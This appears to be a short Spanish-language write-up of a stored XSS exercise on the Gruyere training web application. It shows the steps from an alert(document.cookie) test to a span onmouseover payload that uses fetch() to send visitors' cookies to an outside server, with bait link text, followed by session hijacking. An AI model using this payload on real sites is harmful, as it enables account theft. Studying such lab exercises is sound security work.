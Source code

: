 #Como robé las cookies enteras de otro usuario

Usando la página web de Gruyere, pude comprobar que, al introducir cualquier cosa en la url que no tuviera la página, salía un error indicando que eso no existía, lo que me hizo pensar que  la página no tenía protección contra ataques de inyección de código. Por lo tanto, probé principalmente a que me mostrara mis propias  cookies, con un alert usando js:

```js
alert(document.cookie)
```

Al ver que funcionaba, pensé que los posts o "snippets" que se podían hacer funcionaban con un HTML desprotegido. AL principio observé que los scripts no funcionaban de normal, sin embargo, si lo hacían si los escondía en las propiedades de una etiqueta como <p> o <span>, así que repetí la prueba de alert pero ahora desde los snippets usando:

```html
<span onmouseover=alert(document.cookie)>Prueba</span>
```
Funcionó, así que era hora de dar el paso final y mandar la cookie a un servidor externo, que me permitiría registrar la  cookie de otro usuario. Para esto, cambié ligeramente el código para hacer un fetch y quedó tal que así:

```html
<span onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + document.cookie)">Ram gratis</span>
```

Con esto, finalmente podría tener acceso a las cuentas de todos los que pusieran el ratón sobre el texto que escribí, después, simplemente puedo cambiar mi cookie a la de los demás para logearme en sus cuentas.
